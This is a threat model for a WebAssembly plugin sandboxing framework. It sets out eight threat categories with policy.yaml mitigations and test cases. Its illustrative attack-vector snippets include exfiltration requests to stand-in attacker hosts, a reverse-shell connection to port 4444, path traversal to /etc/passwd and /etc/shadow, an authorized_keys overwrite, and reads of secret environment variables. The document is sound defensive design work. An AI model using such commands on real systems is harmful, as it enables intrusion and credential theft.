

# Threat Model: WASM Plugin Sandboxing Framework

## Document Information

**Version:** 1.0  
**Last Updated:** 2026-05-04  
**Status:** Active

## Executive Summary

This document defines the threat model for the WASM Plugin Sandboxing Framework, explicitly stating which security attacks are **in scope** for mitigation. The framework uses WebAssembly Component Model (WASM-P2) with Wasmtime to provide secure execution of untrusted plugins with comprehensive security controls.

## Scope

### In-Scope Threats

The following threats are explicitly addressed by this sandboxing framework:

1. Malicious File System Access
2. Data Exfiltration via Network
3. Resource Exhaustion / Denial of Service (DoS)
4. Environment Variable Leakage
5. Unauthorized Network Server Creation
6. Timing Attacks
7. Privilege Escalation via Port Access
8. Plugin Lifecycle Attacks

### Out-of-Scope Threats

The following are **NOT** addressed by this framework:
- Side-channel attacks (Spectre, Meltdown)
- Host OS vulnerabilities
- Wasmtime runtime vulnerabilities
- Supply chain attacks on plugin dependencies
- Social engineering attacks
- Physical access attacks

---

## Threat Categories

### 1. Malicious File System Access

#### Threat Description
Untrusted plugins attempting to:
- Read sensitive files outside allowed directories (e.g., `/etc/passwd`, `~/.ssh/id_rsa`)
- Write malicious files to system directories
- Perform path traversal attacks (e.g., `../../../etc/shadow`)
- Modify or delete critical system files
- Create symlinks to bypass restrictions

#### Attack Vectors
```rust
// Example malicious attempts:
plugin.call_create_file("../../../etc/malicious", "payload")
plugin.call_create_file("/root/.ssh/authorized_keys", "attacker_key")
plugin.call_read_file("../../../../etc/passwd")
```

#### Mitigation Strategy
**Configuration:** `policy.yaml`
```yaml
policy:
  dir_name: ["./data"]  # Only ./data directory accessible
  permissions:
    dir: ["read"]       # read-only or mutate
    file: ["read"]      # read-only or write
```

**Implementation:**
- WASI pre-opened directories: Only explicitly allowed directories are accessible
- Path validation: All paths validated against allowlist
- Permission enforcement: Separate read/write controls at WASI level
- No capability to access parent directories

**Security Guarantees:**
- ✅ Plugins cannot access files outside pre-opened directories
- ✅ Path traversal attempts are blocked by WASI
- ✅ Read/write permissions enforced independently
- ✅ No symlink following outside allowed paths

**Test Cases:**
```rust
// ✅ Allowed
plugin.call_create_file("output.txt", "data")  // ./data/output.txt

// ❌ Blocked
plugin.call_create_file("../secret.txt", "data")  // Permission denied
plugin.call_create_file("/etc/passwd", "data")    // Permission denied
```

---

### 2. Data Exfiltration via Network

#### Threat Description
Malicious plugins attempting to:
- Send sensitive data to attacker-controlled servers
- Exfiltrate environment variables, file contents, or memory
- Establish command-and-control (C2) channels
- Bypass network restrictions using DNS tunneling or other covert channels

#### Attack Vectors
```rust
// Example malicious attempts:
plugin.call_make_http_request("https://attacker.com/exfil?data=secrets")
plugin.call_make_http_request("https://evil.example.test/steal")
plugin.call_tcp_connect("192.168.1.100:4444")  // Reverse shell
```

#### Mitigation Strategy
**Configuration:** `policy.yaml`
```yaml
policy:
  # HTTP-level filtering
  allowed_hosts:
    - "httpbin.org"
    - "*.githubusercontent.com"
    - "127.0.0.1"
    - "192.168.1.0/24"  # CIDR ranges
  
  # Socket-level filtering
  socket_policy:
    tcp:
      allowed_destinations:
        - ip: "192.168.1.0/24"
          ports: [80, 443, 8080]
        - ip: "10.0.0.50"
          ports: [5432]
      max_connections: 50
    udp:
      allowed_destinations:
        - ip: "8.8.8.8"
          ports: [53]  # DNS only
```

**Implementation:**
- **HTTP allowlist:** Hostname/IP validation before requests
- **Wildcard support:** `*.example.com` matches single subdomain level
- **CIDR filtering:** IP range validation (IPv4 and IPv6)
- **Socket-level control:** TCP/UDP destination and port filtering
- **Connection limits:** Maximum concurrent connections enforced

**Security Guarantees:**
- ✅ Only allowlisted hosts/IPs can be contacted
- ✅ CIDR ranges properly validated
- ✅ Port-level restrictions enforced
- ✅ Connection limits prevent resource exhaustion
- ⚠️ DNS tunneling not explicitly blocked (relies on UDP filtering)

**Test Cases:**
```rust
// ✅ Allowed
plugin.call_make_http_request("https://httpbin.org/get")
plugin.call_tcp_connect("192.168.1.50:443")

// ❌ Blocked
plugin.call_make_http_request("https://evil.example.test/")
plugin.call_tcp_connect("10.0.0.1:22")  // Not in allowlist
```

---

### 3. Resource Exhaustion / Denial of Service (DoS)

#### Threat Description
Malicious plugins attempting to:
- Consume excessive CPU cycles (infinite loops, crypto mining)
- Exhaust memory (memory bombs, large allocations)
- Create fork bombs or excessive threads
- Cause host system instability or crashes
- Starve other plugins of resources

#### Attack Vectors
```rust
// Example malicious attempts:
loop { /* infinite CPU consumption */ }
vec![0u8; usize::MAX]  // Memory exhaustion
while true { spawn_thread() }  // Thread bomb
```

#### Mitigation Strategy
**Configuration:** `policy.yaml`
```yaml
policy:
  resource_limits:
    max_memory_bytes: 134217728      # 128 MB
    max_fuel: 1000000                # CPU instruction limit
    cpu_timeout_ms: 5000             # 5 seconds
    wall_clock_timeout_ms: 10000     # 10 seconds
  
  socket_policy:
    tcp:
      max_connections: 50            # Connection limit
```

**Implementation:**
- **Fuel metering:** Every WASM instruction consumes fuel
- **Memory limits:** Linear memory capped at configured size
- **CPU timeout:** Execution halted after fuel exhaustion
- **Wall clock timeout:** Real-time execution limit
- **Connection limits:** Maximum concurrent network connections

**Security Guarantees:**
- ✅ CPU usage bounded by fuel limits
- ✅ Memory usage capped at configured maximum
- ✅ Execution time limited (CPU and wall clock)
- ✅ No ability to spawn threads or processes
- ✅ Connection limits prevent network resource exhaustion

**Performance Impact:**
- Fuel metering: ~10-20% overhead
- Memory limits: Minimal overhead
- Timeouts: Negligible overhead

**Test Cases:**
```rust
// ✅ Within limits
for i in 0..1000 { compute() }

// ❌ Exceeds limits
loop { /* infinite loop - fuel exhausted */ }
vec![0u8; 1_000_000_000]  // Memory limit exceeded
```

---

### 4. Environment Variable Leakage

#### Threat Description
Malicious plugins attempting to:
- Access sensitive credentials (API keys, passwords, tokens)
- Read database connection strings
- Exfiltrate cloud provider credentials (AWS_SECRET_ACCESS_KEY)
- Discover internal system configuration

#### Attack Vectors
```rust
// Example malicious attempts:
plugin.call_get_env_var("AWS_SECRET_ACCESS_KEY")
plugin.call_get_env_var("DATABASE_PASSWORD")
plugin.call_get_env_var("GITHUB_TOKEN")
```

#### Mitigation Strategy
**Configuration:** `policy.yaml`
```yaml
policy:
  allowed_env_vars:
    - "PATH"
    - "HOME"
    - "USER"
    - "RUST_LOG"
  # Sensitive vars NOT in allowlist:
  # - AWS_SECRET_ACCESS_KEY
  # - DATABASE_PASSWORD
  # - API_KEY
```

**Implementation:**
- **Explicit allowlist:** Only specified variables accessible
- **WASI filtering:** Environment variables filtered at WASI context creation
- **No wildcard access:** Cannot enumerate all variables
- **Empty list = no access:** Default deny policy

**Security Guarantees:**
- ✅ Only allowlisted variables accessible
- ✅ Sensitive credentials not exposed
- ✅ Cannot enumerate all environment variables
- ✅ Default deny (empty list = no access)

**Test Cases:**
```rust
// ✅ Allowed
plugin.call_get_env_var("PATH")  // Returns value

// ❌ Blocked
plugin.call_get_env_var("AWS_SECRET_ACCESS_KEY")  // Empty or error
plugin.call_get_env_var("DATABASE_PASSWORD")      // Empty or error
```

---

### 5. Unauthorized Network Server Creation

#### Threat Description
Malicious plugins attempting to:
- Create listening sockets for backdoors
- Establish reverse shells
- Create proxy servers for pivoting
- Accept incoming connections for C2 channels

#### Attack Vectors
```rust
// Example malicious attempts:
plugin.call_tcp_listen("0.0.0.0:4444")  // Backdoor listener
plugin.call_tcp_bind("127.0.0.1:8080")  // Local proxy
```

#### Mitigation Strategy
**Configuration:** `policy.yaml`
```yaml
policy:
  socket_policy:
    restrictions:
      allow_bind: true      # Can bind to local addresses
      allow_listen: false   # Cannot create listening sockets
```

**Implementation:**
- **Listen disabled:** WASI socket API blocks `listen()` calls
- **Bind controlled:** Can bind for outbound connections only
- **No server creation:** Cannot accept incoming connections

**Security Guarantees:**
- ✅ Cannot create TCP/UDP servers
- ✅ Cannot accept incoming connections
- ✅ Outbound connections only (if bind allowed)
- ✅ No reverse shell capability

**Test Cases:**
```rust
// ✅ Allowed (if bind enabled)
plugin.call_tcp_connect("192.168.1.50:443")  // Outbound connection

// ❌ Blocked
plugin.call_tcp_listen("0.0.0.0:4444")  // Listen denied
plugin.call_tcp_accept()                // Accept denied
```

---

### 6. Timing Attacks

#### Threat Description
Malicious plugins attempting to:
- Use high-precision timing to infer cryptographic keys
- Perform side-channel attacks via timing measurements
- Fingerprint system performance characteristics
- Bypass rate limiting via precise timing

#### Attack Vectors
```rust
// Example malicious attempts:
let start = high_precision_clock();
crypto_operation();
let duration = high_precision_clock() - start;
// Infer key bits from timing
```

#### Mitigation Strategy
**Configuration:** `policy.yaml`
```yaml
policy:
  clock_policy:
    allow_monotonic_clock: true      # Elapsed time measurement
    allow_wall_clock: true           # Current date/time
    min_resolution_ns: 1000000       # 1ms minimum resolution
    max_queries_per_second: 10000    # Rate limit
    time_offset_seconds: null        # Optional time offset
```

**Implementation:**
- **Resolution limiting:** Clock precision reduced to 1ms minimum
- **Rate limiting:** Maximum queries per second enforced
- **Time offset:** Optional offset to obscure real time
- **Monotonic vs wall clock:** Separate controls for each

**Security Guarantees:**
- ✅ High-precision timing prevented (≥1ms resolution)
- ✅ Rate limiting prevents timing attack iterations
- ✅ Optional time offset adds uncertainty
- ⚠️ 1ms resolution may still allow some timing attacks

**Limitations:**
- 1ms resolution may be insufficient for some cryptographic operations
- Consider disabling clocks entirely for highly sensitive operations

**Test Cases:**
```rust
// ✅ Allowed (low precision)
let start = monotonic_clock();  // 1ms resolution
sleep(10);
let elapsed = monotonic_clock() - start;

// ❌ Rate limited
for i in 0..100000 {
    monotonic_clock();  // Exceeds 10k queries/sec
}
```

---

### 7. Privilege Escalation via Port Access

#### Threat Description
Malicious plugins attempting to:
- Bind to privileged ports (<1024) to impersonate system services
- Connect to privileged ports to exploit local services
- Bypass firewall rules via privileged port access

#### Attack Vectors
```rust
// Example malicious attempts:
plugin.call_tcp_bind("0.0.0.0:80")   // HTTP impersonation
plugin.call_tcp_bind("0.0.0.0:443")  // HTTPS impersonation
plugin.call_tcp_bind("0.0.0.0:22")   // SSH impersonation
```

#### Mitigation Strategy
**Configuration:** `policy.yaml`
```yaml
policy:
  socket_policy:
    restrictions:
      block_privileged_ports: true  # Block ports < 1024
```

**Implementation:**
- **Port validation:** All port numbers checked before bind/connect
- **Privileged port blocking:** Ports 1-1023 blocked
- **Both bind and connect:** Restrictions apply to both operations

**Security Guarantees:**
- ✅ Cannot bind to ports < 1024
- ✅ Cannot connect to privileged ports (if configured)
- ✅ Prevents service impersonation
- ✅ Reduces attack surface

**Test Cases:**
```rust
// ✅ Allowed
plugin.call_tcp_bind("127.0.0.1:8080")  // Non-privileged port

// ❌ Blocked
plugin.call_tcp_bind("0.0.0.0:80")   // Privileged port
plugin.call_tcp_bind("0.0.0.0:443")  // Privileged port
```

---

### 8. Plugin Lifecycle Attacks

#### Threat Description
Malicious plugins attempting to:
- Crash repeatedly to cause system instability
- Consume resources during initialization/cleanup
- Leave zombie processes or leaked resources
- Exploit race conditions during state transitions

#### Attack Vectors
```rust
// Example malicious attempts:
panic!("Intentional crash");  // Repeated crashes
loop { allocate_memory() }    // Resource leak during init
```

#### Mitigation Strategy
**Configuration:** Plugin config
```rust
PluginConfig {
    auto_restart: true,
    max_restart_attempts: 3,
    // ...
}
```

**Implementation:**
- **Status tracking:** Initializing, Running, Paused, Stopped, Failed
- **Auto-restart:** Configurable automatic restart on failure
- **Restart limits:** Maximum restart attempts to prevent infinite loops
- **Health monitoring:** Regular health checks detect failures
- **Resource cleanup:** Automatic cleanup on stop/failure
- **Statistics tracking:** Monitor failure rates and patterns

**Security Guarantees:**
- ✅ Failed plugins automatically restarted (if configured)
- ✅ Restart attempts limited to prevent infinite loops
- ✅ Resources cleaned up on failure
- ✅ Health monitoring detects persistent failures
- ✅ Statistics track failure patterns

**Test Cases:**
```rust
// Automatic recovery
plugin.crash();  // Auto-restart attempt 1
plugin.crash();  // Auto-restart attempt 2
plugin.crash();  // Auto-restart attempt 3
plugin.crash();  // No more restarts, marked as Failed

// Health monitoring
let health = manager.health_check_all().await;
// Detects unhealthy plugins
```

---

## Security Architecture

### Defense in Depth



### Security Layers

1. **WASM Isolation:** Memory isolation, no direct system calls
2. **WASI Capability System:** Explicit capability grants only
3. **Policy Enforcement:** Runtime policy checks for all operations
4. **Resource Metering:** Fuel and memory tracking
5. **Network Filtering:** Multi-layer network access control
6. **Lifecycle Management:** Health monitoring and auto-recovery

---

## Attack Surface Analysis

### Reduced Attack Surface

| Traditional Plugins | WASM Sandboxed Plugins |
|---------------------|------------------------|
| Full file system access | Pre-opened directories only |
| Unrestricted network | Allowlist-based filtering |
| Unlimited CPU/memory | Fuel and memory limits |
| All environment variables | Explicit allowlist |
| Can create servers | Listen disabled |
| High-precision timing | Resolution limited |
| Privileged port access | Blocked by default |
| Unmonitored failures | Health checks & auto-restart |

### Remaining Attack Surface

- **WASM runtime vulnerabilities:** Depends on Wasmtime security
- **Policy misconfiguration:** Overly permissive policies
- **Side-channel attacks:** Not addressed by sandboxing
- **Logic bugs in plugins:** Sandboxing doesn't prevent application-level bugs

---

## Security Controls Summary

| Threat | Control | Configuration | Effectiveness |
|--------|---------|---------------|---------------|
| File System Access | Pre-opened directories | `dir_name`, `permissions` | ✅ High |
| Data Exfiltration | Network allowlist | `allowed_hosts`, `socket_policy` | ✅ High |
| DoS / Resource Exhaustion | Resource limits | `resource_limits` | ✅ High |
| Env Var Leakage | Variable allowlist | `allowed_env_vars` | ✅ High |
| Server Creation | Listen disabled | `allow_listen: false` | ✅ High |
| Timing Attacks | Resolution limiting | `clock_policy` | ⚠️ Medium |
| Privilege Escalation | Port blocking | `block_privileged_ports` | ✅ High |
| Lifecycle Attacks | Auto-restart limits | `max_restart_attempts` | ✅ High |

---

## Configuration Examples

### Restrictive (Untrusted Code)
```yaml
plugin:
  sandbox:
    policy:
      dir_name: []                    # No file access
      allowed_hosts: []               # No network access
      allowed_env_vars: []            # No env vars
      resource_limits:
        max_memory_bytes: 33554432    # 32 MB
        max_fuel: 100000              # Low CPU
        cpu_timeout_ms: 1000          # 1 second
      socket_policy:
        restrictions:
          allow_listen: false
          block_privileged_ports: true
      clock_policy:
        allow_monotonic_clock: false  # No timing
        allow_wall_clock: false
```

### Balanced (Standard Operations)
```yaml
plugin:
  sandbox:
    policy:
      dir_name: ["./data"]
      allowed_hosts: ["api.example.com"]
      allowed_env_vars: ["API_KEY"]
      resource_limits:
        max_memory_bytes: 134217728   # 128 MB
        max_fuel: 1000000
        cpu_timeout_ms: 5000
      socket_policy:
        tcp:
          allowed_destinations:
            - ip: "192.168.1.0/24"
              ports: [80, 443]
        restrictions:
          allow_listen: false
          block_privileged_ports: true
      clock_policy:
        min_resolution_ns: 1000000    # 1ms
        max_queries_per_second: 10000
```

### Permissive (Trusted Code)
```yaml
plugin:
  sandbox:
    policy:
      dir_name: ["./data", "./config", "./logs"]
      allowed_hosts: ["*"]            # ⚠️ Use with caution
      allowed_env_vars: ["*"]         # ⚠️ Use with caution
      resource_limits:
        max_memory_bytes: 536870912   # 512 MB
        max_fuel: 50000000
        cpu_timeout_ms: 30000
      socket_policy:
        tcp:
          allowed_destinations:
            - ip: "0.0.0.0/0"         # ⚠️ All IPs
              ports: []               # ⚠️ All ports
        restrictions:
          allow_listen: true          # ⚠️ Can create servers
          block_privileged_ports: true
```

---

## Testing & Validation

### Security Test Cases

Each threat has associated test cases in `tests/policy_tests.rs`:

```rust
#[test]
fn test_file_access_outside_allowed_dir() {
    // Verify path traversal blocked
}

#[test]
fn test_network_request_to_blocked_host() {
    // Verify network filtering
}

#[test]
fn test_resource_limit_enforcement() {
    // Verify fuel exhaustion
}

#[test]
fn test_env_var_filtering() {
    // Verify env var allowlist
}
```

### Continuous Monitoring

- **Health checks:** Regular plugin health monitoring
- **Statistics tracking:** Call counts, failure rates, resource usage
- **Alerting:** Detect anomalous behavior patterns

---

## Limitations & Future Work

### Current Limitations

1. **Timing attacks:** 1ms resolution may be insufficient for some scenarios
2. **DNS tunneling:** Not explicitly blocked (relies on UDP filtering)
3. **Side-channel attacks:** Not addressed (Spectre, Meltdown, etc.)
4. **Policy complexity:** Complex policies may be error-prone

### Future Enhancements

1. **Dynamic policy updates:** Runtime policy modification
2. **Anomaly detection:** ML-based behavior analysis
3. **Audit logging:** Comprehensive security event logging
4. **Policy templates:** Pre-defined security profiles
5. **Finer-grained permissions:** Per-file or per-function controls

---

## References

- [WebAssembly Component Model](https://github.com/WebAssembly/component-model)
- [Wasmtime Security](https://docs.wasmtime.dev/security.html)
- [WASI Security Model](https://github.com/WebAssembly/WASI/blob/main/docs/Security.md)
- [OWASP Threat Modeling](https://owasp.org/www-community/Threat_Modeling)

---

## Document Maintenance

This threat model should be reviewed and updated:
- When new threats are identified
- When security controls are added or modified
- After security incidents
- Quarterly as part of security review process

